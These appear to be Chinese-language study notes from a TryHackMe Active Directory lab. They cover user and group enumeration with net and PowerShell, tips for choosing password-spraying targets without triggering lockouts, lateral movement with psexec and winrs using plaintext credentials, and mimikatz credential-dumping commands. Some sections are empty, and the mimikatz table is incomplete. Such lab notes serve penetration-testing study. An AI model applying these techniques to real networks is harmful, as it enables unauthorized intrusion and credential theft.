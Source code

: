 # AD

## 枚举AD

>通过CMD枚举：

枚举所有的AD用户：  
``````
net user /domain
net user zoe.marshall /domain
枚举某一个用户的信息
``````
注意：如果用户只是少数 AD 组的一部分，则此命令将能够向我们显示组成员身份。但是，通常，在超过十个组成员身份后，该命令将无法列出所有组成员身份


枚举AD组：

``````
net group /domain
net group "Tier 1 Admins" /domain
枚举一个组的信息，包括成员身份
``````

枚举密码策略：
``````
net accounts
``````

>通过powershell枚举：

通过powershell的cmdlet枚举，cmdlet可以自己编写

>Get-ADUser

``````
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
``````
这些参数用于以下用途：

-Identity - 我们正在枚举的帐户名称  
-Properties - 将显示与帐户关联的属性，* 将显示所有属性  
-Server - 由于我们没有加入域，因此我们必须使用此参数将其指向域控制器

所以以上的命令枚举了单个用户

``````
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
查找带有stevens的用户
``````

>Get-ADGroup

``````
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
``````

可以用Get-ADGroupMember枚举组员身份
``````
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
``````

>Get-ADObject

``````
PS C:\> $ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
PS C:\> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
``````
可以使用 cmdlet 对任何 AD 对象执行更通用的搜索。例如，如果我们要查找在特定日期之后更改的所有 AD 对象

如果我们想在不锁定帐户的情况下执行密码喷射攻击，我们可以使用它来枚举 badPwdCount 大于 0 的帐户，以避免这些帐户出现在我们的攻击中：
``````
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
``````
就是看看那个账户容易被锁定，就不轻易枚举


>Get-ADDomain

``````
Get-ADDomain -Server za.tryhackme.com
``````
枚举域

>Set-ADAccountPassword
更改AD对象
``````
Set-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
``````


强大的枚举工具：bloodhound


## 横向移动与旋转

### 远程生成进程

>Psexec

端口：445/TCP(SMB)  
所需的组成员身份：管理员  

psexec 的工作方式如下：  
连接到 Admin$ 共享并上传服务二进制文件。Psexec 使用 psexesvc.exe 作为名称。   
连接到服务控制管理器以创建并运行名为 PSEXESVC 的服务，并将服务二进制文件与C:\Windows\psexesvc.exe关联。  
创建一些命名管道来处理 stdin/stdout/stderr。  
``````
运行psexec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
``````

>使用WinRM创建远程进程

端口：5985/TCP(WinRM HTTP)或5986/TCP(inRM HTTPS)  
所需的组成员身份：远程管理用户  
``````
从命令行连接到远程powershell会话
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
``````



>远程使用sc创建服务



>远程创建计划任务





## 内网使用的工具

### mimikatz

mimikatz使用需要提权到administrator。

命令| 描述
|-|-| 
privilege::debug |
sekurlsa::wdigest |
sekurlsa::USERNAEM |